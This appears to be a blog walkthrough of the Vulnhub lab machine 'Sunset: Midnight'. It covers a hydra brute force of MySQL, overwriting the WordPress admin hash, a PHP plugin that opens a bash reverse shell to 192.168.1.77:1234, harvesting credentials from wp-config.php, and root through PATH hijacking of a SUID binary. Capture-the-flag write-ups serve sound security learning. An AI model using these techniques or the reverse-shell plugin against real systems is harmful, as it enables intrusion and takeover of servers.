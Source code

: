 ```yaml
---
layout: post
title:  "Vulnhub - SUNSET: MIDNIGHT"
date:   2020-10-23 19:00:00 +1100
category: hacking
---
```


## Introduction
*Difficulty: Intermediate  
Important!: Before auditing this machine make sure you add the host "sunset-midnight" to your /etc/hosts file, otherwise it may not work as expected.*

This is [SUNSET: MIDNIGHT](https://www.vulnhub.com/entry/sunset-midnight,517/) from vulnhub. 

## Ports
This box has:

1. SSH on port 22, 
2. HTTP on port 80, and
3. MariaDB (MySQL) on 3306. 

## HTTP
We have one disallowed entry in robots.txt: *wp-admin*. So we know we're running Wordpress.

``
root@kali:/opt/vulnhub/midnight# wpscan -e --url http://sunset-midnight
``

wpscan gets us one user *admin*. I start a password attack, but it's not getting anywhere. In the meantime:

## MySQL
{% highlight shell %}
root@kali:/opt/vulnhub/midnight# hydra -l 'root' -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt sunset-midnight mysql
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-23 03:08:47
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10000 login tries (l:1/p:10000), ~2500 tries per task
[DATA] attacking mysql://sunset-midnight:3306/
[3306][mysql] host: sunset-midnight   login: root   password: robert
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-23 03:08:48
{% endhighlight %}

So we quickly get some creds for MySQL, cool. We can login:

``
root@kali:/opt/vulnhub/midnight# mysql --host=192.168.1.119 --port 3306 -u root -p
``

Once we're in we can get the *admin* password hash for Wordpress from *wp_users*

{% raw %}
admin:$P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/
{% endraw %}

But I can't crack it with Hashcat. Hmmm. There is also a *mysql* database with a *users* table, and we can find the hashes for our user *root* and another user *jose*. 

{% raw %}
jose:3AA64DAE22DBC5B7ACC28062EB18EFB7046D808C
{% endraw %}

Unfortunately I can't crack the *jose* hash either!

What I can do is change the hash for *admin* in the *wp_users* table:

``
MariaDB [wordpress_db]> UPDATE wp_users SET user_pass = '$P$BusK8xRCOLbSKorQVUvb4/EQA.FOQj.' WHERE user_login = 'admin';
``

The hash above is for the password **none**. 

## Wordpress
With the password for the admin user changed, I can log in to *wp-admin*. Once there, I upload a new plugin in zip format that is actually a reverse shell. The unzipped version looks like this:

{% highlight shell %}
root@kali:/opt/vulnhub/midnight# cat ../kbvuln/rev-plugin.php 
<?php

/**
* Plugin Name: Reverse Shell Plugin  
* Plugin URI:  
* Description: Reverse Shell Plugin  
* Version: 1.0  
* Author: Vince Matteo  
* Author URI: http://www.sevenlayers.com  
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.77/1234 0>&1'");
?>
{% endhighlight %}

Once uploaded and activated, we can catch the shell and we're on the box.

## No way, Jose
I run *linpeas*, because I always run *linpeas*. Even though I could have found it myself, it gives me this:

{% highlight shell %}
[+] Searching Wordpress wp-config.php files
wp-config.php files found:
/var/www/html/wordpress/wp-config.phpdefine( 'DB_NAME', 'wordpress_db' );
define( 'DB_USER', 'jose' );
define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );
define( 'DB_HOST', 'localhost' );
{% endhighlight %}

No wonder I could't crack the hash. Anyway, this is also the SSH password for *jose*.

## Root
As *jose*, enumeration turns up an unusual SUID binary:

{% highlight shell %}
jose@midnight:/dev/shm$ file /usr/bin/status
/usr/bin/status: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0b60ab071f1d8a6295eedb7f6815e957f2936171, not stripped
{% endhighlight %}

Disassembling this in Ghidra shows the main method:

{% highlight c %}
undefined8 main(void)

{
  setuid(0);
  setgid(0);
  printf("Status of the SSH server:");
  system("service ssh status");
  return 0;
}
{% endhighlight %}

When we run it, we get the message:
>jose@midnight:/dev/shm$ service ssh status  
-bash: service: command not found

So there is no *service* binary. Maybe we should make one?

{% highlight shell %}
jose@midnight:/dev/shm$ nano service
jose@midnight:/dev/shm# cat service 
#!/bin/bash
/bin/bash

jose@midnight:/dev/shm$ chmod +x service
jose@midnight:/dev/shm$ export PATH=/dev/shm:$PATH
jose@midnight:/dev/shm$ /usr/bin/status
root@midnight:/dev/shm# whoami
root
root@midnight:/dev/shm# cd /root
root@midnight:/root# cat root.txt
ASCII ART REMOVED
db2def9d4ddcb83902b884de39d426e6

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
{% endhighlight %}

Thank you whitecr0wz; I enjoyed this one.
